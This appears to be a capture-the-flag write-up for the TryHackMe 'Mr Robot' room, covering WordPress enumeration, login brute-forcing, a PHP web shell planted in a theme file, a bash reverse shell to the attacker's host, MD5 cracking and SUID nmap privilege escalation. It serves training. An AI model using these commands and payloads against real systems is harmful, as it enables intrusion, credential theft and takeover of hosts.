










## TryHackMe Room - [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv <TARGET_IP> -sV
```

**Results:**
```
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack ttl 64 Apache httpd
443/tcp open  ssl/http syn-ack ttl 64 Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have SSH, HTTP, and HTTPS services running. Let's explore the web application on port 80.



### Web Application Discovery

On visiting the web application, we see a terminal-kind of startup sequence and then we are provided with a few commands to run. I tried executing a few but none were of much use.

```html
<div class="line">prepare</div><div class="line">fsociety</div>
<div class="line">inform</div>
<div class="line">question</div>
<div class="line">wakeup</div>
<div class="line">join</div>
```

When trying the `join` command, I am asked for an email. After submitting a random value and examining the request in Burp Suite, I found an interesting URL in the response message:

```html
<script src="http://<TARGET_IP>/wp-content/themes/twentyfifteen/js/html5.js"></script>
```

So, we have a WordPress application! Let's scan it with `wpscan`.



### WordPress Enumeration

Let's initiate a wpscan to enumerate plugins and gather information:

```bash
wpscan --url http://<TARGET_IP> --enumerate p
```

**Results:**
```
[+] URL: http://<TARGET_IP>/ [<TARGET_IP>]
[+] Started: Fri Jan 16 22:06:45 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://<TARGET_IP>/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://<TARGET_IP>/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
 | Found By: Emoji Settings (Passive Detection)
 | Confirmed By: Meta Generator (Passive Detection)

[+] WordPress theme in use: twentyfifteen
 | Location: http://<TARGET_IP>/wp-content/themes/twentyfifteen/
 | Last Updated: 2025-12-03T00:00:00.000Z
 | [!] The version is out of date, the latest version is 4.1
```

### robots.txt Discovery

First things first, we have a `robots.txt` file. Let's visit it:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Opening `key-1-of-3.txt` reveals the first answer to the room.



And, `fsocity.dic` is a wordlist which might be useful for bruteforcing later. Let's save it for future use.

## Initial Access

### Username Enumeration

We notice that we have direct access to `/xmlrpc.php`, and that we can bruteforce with the given dictionary. But, we also need usernames. At the start, we saw a login panel where we could see:

```
mrrobot login
username: root
```

So, we have 2 potential usernames - `root` & `mrrobot`.

However, I discovered a username enumeration vulnerability in the given WordPress version. Let's search for exploits:

```bash
searchsploit "WordPress 4.3.1"
```

**Results:**
```
WordPress Core < 4.7.1 - Username enumeration | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset | linux/webapps/41963.txt
```

So, I visited `http://<TARGET_IP>/wp-login.php` and tried these usernames with random passwords.

**Invalid username error:**
```html
<div id="login_error">	<strong>ERROR</strong>: Invalid username. <a href="http://<TARGET_IP>/wp-login.php?action=lostpassword">Lost your password?</a><br/>
</div>
```

Now, trying names from the wordlist we discovered, I found a username `Elliot` on trying which the error message differed.

**Valid username error:**
```html
<div id="login_error">	<strong>ERROR</strong>: The password you entered for the username <strong>Elliot</strong> is incorrect. <a href="http://<TARGET_IP>/wp-login.php?action=lostpassword">Lost your password?</a><br/>
</div>
```

This confirmed my suspicion. Now, we have the username.



### Password Cracking

Also, I sorted and cut out repetitive passwords from the wordlist using:

```bash
sort fsocity.dic | uniq > fsocity_clean.txt
```

Now, running a bruteforce with `Elliot` as the username and the non-redundant wordlist:

```bash
wpscan --url http://<TARGET_IP> \
       --usernames Elliot \
       --passwords fsocity_clean.txt
```

**Results:**
```
[+] URL: http://<TARGET_IP>/ [<TARGET_IP>]
[+] Started: Fri Jan 16 22:54:35 2026

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
[SUCCESS] - Elliot / <REDACTED>
All Found

[!] Valid Combinations Found:
 | Username: Elliot, Password: <REDACTED>
```

Got it! We now have valid credentials. Let's login to the wp-login page and we are in!

### WordPress Admin Access

Looked up posts, gallery but no clues. Until I reached the Users tab.



**Users Found:**
```
elliot	    Elliot	 Alderson	elliot@mrrobot.com	Administrator
mich05654   krista       Gordon	        kgordon@therapist.com	Subscriber
```

When opening up Krista's profile we see an interesting hint:



```
Another key?
```

This means that we are on the right path.

### Remote Code Execution

Next, as we know that we can now edit files in the `Appearance > Editor` section. Let's try to modify the `404.php` file, and see if we are able to execute commands.

Replacing the file contents with:

```php
<?php system($_GET['cmd']); ?>
```

Now, after hitting the endpoint with a cmd flag, we should see some response.

```
http://<TARGET_IP>/wp-content/themes/twentyfifteen/404.php?cmd=id

uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

We have it! Now, let's improve our PHP script to get a reverse shell.



### Reverse Shell

Start a listener locally with:

```bash
nc -lvnp 1234
```

And update the `404.php` file with:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'"); ?>
```

Now, let's visit the endpoint `<TARGET_IP>/wp-content/themes/twentyfifteen/404.php` and that gives us the reverse shell.



**Reverse Shell Obtained:**
```
┌──(kali㉿kali)-[~/CTF/THM]
└─$ nc -lnvp 1234                                     
listening on [any] 1234 ...
connect to [<YOUR_IP>] from (UNKNOWN) [<TARGET_IP>] 44190
bash: cannot set terminal process group (3172): Inappropriate ioctl for device
bash: no job control in this shell
</wordpress/htdocs/wp-content/themes/twentyfifteen$ 
```


Let's stabilise shell with:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



## User Flag

### Finding Key 2

Next, let's hunt for keys:

```bash
daemon@ip-<TARGET_IP>:/$ cd /home
daemon@ip-<TARGET_IP>:/home$ ls 
robot  ubuntu
daemon@ip-<TARGET_IP>:/home$ cd robot
daemon@ip-<TARGET_IP>:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2  2025 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@ip-<TARGET_IP>:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@ip-<TARGET_IP>:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:<REDACTED>
```

Ok, so we are not allowed to directly read the file but we have an MD5 hash which is probably the password to the user `robot`. Let's crack it with the same wordlist we found earlier using john the ripper.

```bash
john hash.txt --wordlist=fsocity_clean.txt --format=Raw-MD5
```

**Results:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2026-01-16 23:20) 0g/s 1145Kp/s 1145Kc/s 1145KC/s wgRestrictionCreate..Zzydrax
Session completed.
```

The original wordlist didn't crack it, so let's try `rockyou.txt`:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

**Results:**
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED> (robot)     
1g 0:00:00:00 DONE (2026-01-16 23:21) 50.00g/s 2035Kp/s 2035Kc/s 2035KC/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Great! We have the password. Let's SSH login using username `robot` and the cracked password.

```bash
ssh robot@<TARGET_IP>
```

**SSH Login Successful:**
```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

Last login: Fri Nov 13 23:50:42 2015
$ ls
key-2-of-3.txt  password.raw-md5
$ cat key-2-of-3.txt
<REDACTED>
```

Perfect! We have successfully retrieved key 2 of 3.

Now, stabilise shell again:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

### SUID Binary Analysis

Next is privesc. Let's look for Sudo misconfigs:

```bash
robot@ip-<TARGET_IP>:~$ sudo -l
[sudo] password for robot: 
Sorry, user robot may not run sudo on ip-<TARGET_IP>.
```

None! Ok, SUID binaries are next:

```bash
find / -perm -u=s -type f 2>/dev/null
```

**Results:**
```
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Interesting find! We have `/usr/local/bin/nmap` listed as a SUID binary. Which we can exploit here!

Read more - https://gtfobins.github.io/gtfobins/nmap/

```bash
robot@ip-<TARGET_IP>:/opt/bitnami/stats$ ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 17272 Jun  2  2025 /usr/local/bin/nmap
robot@ip-<TARGET_IP>:/opt/bitnami/stats$ /usr/local/bin/nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-<TARGET_IP>:/opt/bitnami/stats# whoami
root
root@ip-<TARGET_IP>:/opt/bitnami/stats# cd /root
root@ip-<TARGET_IP>:/root# ls
firstboot_done  key-3-of-3.txt
root@ip-<TARGET_IP>:/root# cat key-3-of-3.txt
<REDACTED>
```



## Root Flag

We successfully escalated privileges using the SUID nmap binary and retrieved the root flag!

## References

1. https://gtfobins.github.io/gtfobins/nmap/
2. https://www.exploit-db.com/exploits/41497

---

## Answers

### Task 1 - Mr Robot CTF

> Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

1. **What is key 1?**

   **Ans.** `<REDACTED>`

2. **What is key 2?**

   **Ans.** `<REDACTED>`

3. **What is key 3?**

   **Ans.** `<REDACTED>`
